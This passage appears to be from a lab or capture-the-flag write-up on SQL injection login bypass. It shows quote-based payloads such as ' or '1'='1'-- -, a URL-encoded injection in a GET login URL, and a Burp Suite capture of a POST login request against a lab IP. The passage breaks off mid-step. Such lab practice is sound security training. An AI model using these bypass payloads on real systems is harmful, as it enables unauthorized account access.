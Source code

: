 ```shell
# Standard payload which should work
'1 or '1'='1'-- -
```

Same as above, it will tell us that the account doesnt exist. We will need to use ''':
```shell
# Payload that worked
''' or '1'='1'-- -
```

#### URL Injection
Enter anything as username and credentials and get the resultant URL on the top of our browser

```shell
http://10.10.147.249:5000/sesqli3/login?profileID=a&password=a
```
Change the profileID content to our SQL injection payload

```shell
http://10.10.147.249:5000/sesqli3/login?profileID=-1' or 1=1-- -&password=a
```
Go to CyberChef and URL encode it

```shell
http://10.10.147.249:5000/sesqli3/login?profileID=-1'%20or%201=1--%20-&password=a
```
Enter the URL encoded URL on our web browser and we will be able to bypass the login

#### POST Injection
Start FoxyProxy on Firefox and Burp Suite. Enter anything as username and password and capture the request with Burp Suite. The captured request will look like this:

```shell
POST /sesqli4/login HTTP/1.1
Host: 10.10.147.249:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Origin: http://10.10.147.249:5000
Connection: keep-alive
Referer: http://10.10.147.249:5000/sesqli4/login
Cookie: session=.eJy90T1rAzEMBuD_4jmDZclfN5dCl2ydgyzLcPTSS-9SSgn573WaUjp0yJTNegXCj3Qyq65v0wi7ykc2w8k8Pz2YATZG9zxOZjBmY155r_31uPCrzON6SUZ52V7TXh14XQ_zctwuvU7Beue9BbKJfpof81J7iyRhi1a4IYNkFhKK1WXyaltMLVb0HCUDcVJIEJBFHSaGohqgXKYtcxsnvfzRgO3ByhMvn2Zw3p43v5j3VZfdWL8h18zdAxhDsT6R5lyiLZRj4UAJfQH1SuoseEc-Bs7AMSFy6lYIWlBQ-sRbge4fIN4DKNJIwEJOXrEo98vFLuAWiqaMNtUivd-6EauWvoB-Xwrias0EILcC8Q_w_AWU8MZk.ZzEb9g.d58tkAuuBx1kA0TC_RMFoVpK_bU
Upgrade-Insecure-Requests: 1

profileID=a&password=a
```

Now we need to change this part:

